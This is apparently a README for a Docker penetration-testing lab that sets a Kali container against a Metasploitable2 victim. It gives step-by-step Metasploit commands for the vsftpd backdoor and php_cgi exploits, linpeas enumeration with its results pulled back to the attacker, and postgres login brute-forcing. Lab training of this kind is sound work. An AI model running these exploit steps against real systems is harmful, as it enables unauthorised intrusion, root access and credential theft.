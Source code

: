 
## Setup 

```bash
make up
make ps
```

```bash
make logs container=meta2
make logs container=kali 
```

```bash
make access container=meta2
make access container=kali
```

In each container, run:

```bash
ifconfig # you should see 172.20.0.3 for the attacker and 172.20.0.2 for the victim 
```

From kali, run:

```bash
nmap -F 172.20.0.2
```

## Penetration

### Privilege Escalation

From kali:

```bash
nmap -sV -p 21 172.20.0.2
```

```bash
msfconsole
search vsftpd
#   1  exploit/unix/ftp/vsftpd_234_backdoor
use 1
set rhosts 172.20.0.2
set rport 21
exploit
```

Now to check previliges, directly type:

```bash
touch you_are_pwned
```

```bash
whoami #root
```

### Data gathering
From kali:
```bash
#Download linpeas.sh script
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
We will run the script by exploiting a php vulnerability but from a non-privileged user
```bash
msfconsole
search php_cgi
use 0
set rhosts 172.20.0.2
exploit
# we get a meterpreter session
# from here, we upload the linpeas script to the victim
upload linpeas.sh .
shell #we open a shell in victim
ls #check file was uploaded successfully
chmod 777 linpeas.sh
./linpeas.sh
```

### Password brute force
From kali:
```bash
msfconsole
search postgres
#   9   auxiliary/scanner/postgres/postgres_login
use 9
set rhosts 172.20.0.2
set STOP_ON_SUCCESS true
run
```

## Stop the containers

```bash
make down
```


## Demo

```
# Use a linpeas binary
```

From kali:
```bash
#Download linpeas.sh script
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
```

We will run the script by exploiting a php vulnerability but from a non-privileged user
```bash
msfconsole
search php_cgi
use 0
set rhosts 172.20.0.2
exploit 

# we get a meterpreter session
upload linpeas_linux_amd64 . # from here, we upload the linpeas script to the victim
shell # we open a shell in victim
ls # check file was uploaded successfully
chmod 777 linpeas_linux_amd64
./linpeas_linux_amd64 -a > out.txt
exit
```
From meterpreter:
```bash
download out.txt
bg # Go back to msfconsole
```

From kali terminal:
```bash
less -r out.txt # Open linpeas file
```

Go back to the session:
```bash
sessions -i* # list sessions
sessions -i 1 # go back to the first session
```
